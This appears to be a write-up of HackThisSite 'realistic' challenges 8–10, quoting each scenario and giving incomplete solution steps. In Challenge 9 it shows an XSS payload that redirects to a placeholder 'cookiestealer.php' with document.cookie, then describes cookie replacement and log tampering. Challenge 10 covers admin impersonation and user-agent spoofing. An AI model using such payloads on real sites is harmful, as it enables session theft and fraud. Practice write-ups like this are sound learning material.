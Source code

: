 # Challenge 8
## Question
From: DarkOneWithANeed

Message: Hey man, you gotta help me out, Gary Hunter, one of the richest men in America, has just deposited $10,000,000 into his bank account at the United Banks Of America and plans to donate that money to a campaign to hunt down and lock up all hackers. Now I've tried hacking their <a href="https://www.hackthissite.org/missions/realistic/8/">site</a> but I'm just not good enough. That's why I need your help, Here's a list of your objectives:
1. Find the account of Gary Hunter (I don't know his account name).
2. Move the $10,000,000 into the account dropCash.
3. Clear The Logs, They're held in the folder 'logFiles'.
I really hope you can do this, because if you can't we're all screwed

## Solutions

# Challenge 9
## Question
From:

Message: Hey man,
I've heard you're good at hacking, and on the right side of things. So I came looking for you. I really need help, you see, my boss has stopped paying our salaries and I'm going to miss my rent! Please help me get my money, you can reach the site at Crappy Soft. They have an online payment system, but only he can use it. Maybe you can get into his account somehow, but for now you can use mine:

Username: r-conner@crappysoft.com
Password: ilovemywork

Thanks man, good luck.

## Solution
1. Try to login using the credential given by the questions
2. When you observe the website in "Demo", you will realize a path way "./files/..."
3. I try to observe the directories in the website and I realize there is a mailing list
4. I "Private Message" enter these : 

Subject : cookiesstealer.php

Message : javascript:void(window.location="www.yourwebsite.com/cookiestealer.php + document.cookie)

5. Cookies is given, replace the cookies in inspection.

![image](https://github.com/user-attachments/assets/d3d310fe-0542-42a4-98ea-82621adb49fd)

6. Go to "Pay Salaries" to complete the transaction 
7. Go to mailing list, switch the txt files in inspection to logs.txt and paste the IP address.

![image](https://github.com/user-attachments/assets/ca2f8d19-1da1-4253-80d6-6cbd3779e294)

## Cross-Site Scripting (XSS) attack

window.location="www.yourwebsite.com/cookiestealer.php + document.cookie"

# Challenge 10
## Question 

From: Zach Sanchez

Message: hey man, it's me Zach, I need a favour from you, I'm in big trouble.
if you'll remember, I go to that super uptight religious school. well, two of my teachers are failing me because my lifestyle does not fall in line with their moralistic rules for public behaviour. My gym teacher even called me a 'long-haired hippie faggot'! And if I fail any classes, I won't graduate.
Listen, can you hack into the school's grade database and make it so I'm passing all my classes? I know they have this system set up on their website that allows teachers to submit grades and stuff, and I heard you pulled a few things in the past as well. Their web master was not thinking in terms of computer security when he was designing the website, so it might be easy. Or not. Please check it out <a href="http://hackthissite.org/missions/realistic/10/">here</a>. The username to my account is 'Zach Sanchez' and my password is 'liberty638'. Thanks man!

## Solutions
index.php [homepage]
listteachers.php [teacher listing]
student.php [login studnet accounts]
staff.php 

1.  Log into the student account by using the given username and password
2. When we try to look listteacher.php, we realise that "Samantha Miller" has id = 1 --> she is the admin
3. Try to log into Samantha Miller : using the email address "smiller@holycross.edu"
4. 



Ways to create agent in Google Chrome  :

Inspect > Network > More Tools > Network Conditions > User Agent

<img width="1273" alt="image" src="https://github.com/user-attachments/assets/9256391d-bcf9-4829-8b43-4355702b7b6a" />
